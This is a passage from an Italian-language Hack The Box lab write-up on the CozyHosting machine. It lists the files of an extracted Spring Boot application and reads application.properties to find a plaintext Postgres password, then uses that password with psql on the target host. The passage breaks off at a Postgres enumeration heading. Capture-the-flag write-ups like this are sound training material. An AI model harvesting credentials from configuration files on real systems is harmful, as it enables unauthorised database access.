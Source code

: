 ```shell
            │       ├── LaunchedURLClassLoader$DefinePackageCallType.class
            │       ├── LaunchedURLClassLoader$UseFastConnectionExceptionsEnumeration.class
            │       ├── LaunchedURLClassLoader.class
            │       ├── Launcher.class
            │       ├── MainMethodRunner.class
            │       ├── PropertiesLauncher$ArchiveEntryFilter.class
            │       ├── PropertiesLauncher$ClassPathArchives.class
            │       ├── PropertiesLauncher$PrefixMatchingArchiveFilter.class
            │       ├── PropertiesLauncher.class
            │       ├── util
            │       │   └── index.html
            │       └── WarLauncher.class
            └── index.html

32 directories, 125 files
```

> Ignoriamo i file **index.html** creati da wget. 
{: .prompt-attention }

Sul file **application.properties** otteniamo la password del database postgres.

```shell
┌─[eu-vip-21]─[10.10.14.4]─[dua2z3rr@htb-gwqf776wqo]─[~/10.10.11.230:8000/app/BOOT-INF/classes]
└──╼ [★]$ cat application.properties 
server.address=127.0.0.1
server.servlet.session.timeout=5m
management.endpoints.web.exposure.include=health,beans,env,sessions,mappings
management.endpoint.sessions.enabled = true
spring.datasource.driver-class-name=org.postgresql.Driver
spring.jpa.database-platform=org.hibernate.dialect.PostgreSQLDialect
spring.jpa.hibernate.ddl-auto=none
spring.jpa.database=POSTGRESQL
spring.datasource.platform=postgres
spring.datasource.url=jdbc:postgresql://localhost:5432/cozyhosting
spring.datasource.username=postgres
spring.datasource.password=Vg&nvzAQ7XxR
```

Allora usiamo sulla macchina nemica:

```shell
app@cozyhosting:/app$ psql -h 127.0.0.1 -U postgres
psql -h 127.0.0.1 -U postgres
Password for user postgres: Vg&nvzAQ7XxR

psql (14.9 (Ubuntu 14.9-0ubuntu0.22.04.1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
Type "help" for help.

postgres=#
```

### Enumerazione Postgres
